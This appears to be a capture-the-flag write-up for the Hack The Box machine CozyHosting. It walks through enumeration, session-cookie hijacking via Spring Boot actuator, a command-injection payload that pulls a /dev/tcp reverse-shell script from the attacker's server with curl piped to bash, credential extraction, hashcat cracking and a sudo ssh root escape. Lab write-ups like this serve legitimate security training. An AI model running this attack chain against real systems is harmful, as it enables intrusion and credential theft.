 ```yaml
---
title: "CozyHosting from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# CozyHosting from HTB
[page](https://app.hackthebox.com/machines/CozyHosting)
`Nmap` gave this:
```bash
nmap -sCV --min-rate 4000 10.10.11.230
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-09 18:47 +04
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.093s latency).
Not shown: 919 filtered tcp ports (no-response), 79 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Cozy Hosting - Home

```
Nothing Unusual.
Added this to `/etc/hosts`:
```
10.10.11.230 cozyhosting.htb
```
Got to the site and used `Gobuster`:
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://cozyhosting.htb/

/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
```
Accessing all the directories gave me nothing except `error`one which said:
```
# Whitelabel Error Page
```
Researching this will get you to `Springboot`. To list all the directories you can use the `spring-boot.txt wordlist`:
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt:FFUZ -u http://cozyhosting.htb/FFUZ -ic -t 100

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

actuator                [Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 106ms]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 119ms]
actuator/env/lang       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 154ms]
actuator/env/path       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 170ms]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 160ms]
actuator/env/home       [Status: 200, Size: 487, Words: 13, Lines: 1, Duration: 190ms]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 175ms]
actuator/sessions       [Status: 200, Size: 148, Words: 1, Lines: 1, Duration: 175ms]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 180ms]
```
In `actuator/sessions`I found `cookie for kanderson`:
```
"68BCAFEDE95BEB075339B14CF851D8B3": "kanderson"
```
I inserted the `cookie`into `cookie editor`or you can insert it with `inspect`:
```
JSESSIONID: 68BCAFEDE95BEB075339B14CF851D8B3
```
The cookie will be different each time.
Then went to `/admin`directory and i was logged as `K.Anderson`
```
#### Please note

For Cozy Scanner to connect the private key that you received upon registration should be included in your host's .ssh/authorised_keys file.
```
This tells me that this:
![](/assets/images/Screenshot from 2024-08-09 18-58-20.png)
Is an code that is associated with `ssh`.
Create an `reverse shell`bash script and then start the `simple python3 server`:
```bash
 echo -e '#!/bin/bash\nsh -i >& /dev/tcp/<your_ip>/<port> 0>&1' > reverse.sh
 python3 -m http.server 8000
```
Then run this script on the site:
```bash
127.0.0.1
test;curl${IFS}http://<your_ip>:<port>/reverse.sh|bash;
```
Before you press `submit` start `NetCat listener on port` that you typed in the `reverse.sh`file.
Then press `submit`and you should get connection:
```bash
$ rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.230] 51272
sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
$ unzip -d /tmp/app cloudhosting-0.0.1.jar
```
This will unzip the `.jar`file into `tmp/app`directory. Go to that directory and search for the password and username.
```bash
app@cozyhosting:/tmp/app/BOOT-INF/classes$ cat app
cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxRapp@cozyhosting:/tmp/app/BOOT-INF/classes
```
`psql`database is running locally and to access that `db`you will need the credentials that's listed in this file
***
Username --- postgres
Password --- Vg&nvzAQ7XxR
***
Connect to the database and search for `users`to get the password.
```sql
psql -h 127.0.0.1 -U postgres
Password for user postgres: Vg&nvzAQ7XxR
postgres-# \list
\list
WARNING: terminal is not fully functional
Press RETURN to continue

                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privil
eges
-------------+----------+----------+-------------+-------------+----------------
-------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres
      +
             |          |          |             |             | postgres=CTc/po
stgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres
      +
             |          |          |             |             | postgres=CTc/po
stgres
```
The database that seems interesting is `cozyhosting`.
```sql
\connect cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
\dt
WARNING: terminal is not fully functional
Press RETURN to continue

         List of relations
 Schema | Name  | Type  |  Owner
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres

select * from users;
WARNING: terminal is not fully functional
Press RETURN to continue

   name    |                           password                           | role

-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```
`Kanderson's password`is not interesting to us because he is not listed in `/etc/passwd`but `josh`is listed and `admin password`is for `josh`. Identify it with `hashid`and then `decrypt`it with `hashcat`:
```bash
hashcat hash -m 3200 /usr/share/wordlists/rockyou.txt
..............
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
..............
```
Then go to `ssh`and connect as `josh`with password `manchesterunited`:
```bash
 ssh josh@10.10.11.230
 josh@10.10.11.230's password: manchesterunited
```
You can get the `uset.txt`:
```bash
josh@cozyhosting:~$ ls
user.txt
josh@cozyhosting:~$ cat user.txt
e6db96f4c67b39fc016f562b86690bb2
```
***
User Flag is: e6db96f4c67b39fc016f562b86690bb2
***
Then learn what you can do with `root permission`:
```bash
sudo -l
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
Then i searched `ssh privilege escalation`and i found this command on `GTFObins`:
https://gtfobins.github.io/gtfobins/ssh/
```
ssh -o PermitLocalCommand=yes -o 'LocalCommand=/bin/sh' host
```
The final command will look like this:
```
sudo /usr/bin/ssh -o PermitLocalCommand=yes -o 'LocalCommand=/bin/sh' josh@127.0.0.1
```
Enter the password for `josh`and you will become the root.
***
Root Flag is: c583c160768d95a1198e21666cbf4b54
***
![](/assets/images/Screenshot from 2024-08-09 18-45-40.png)

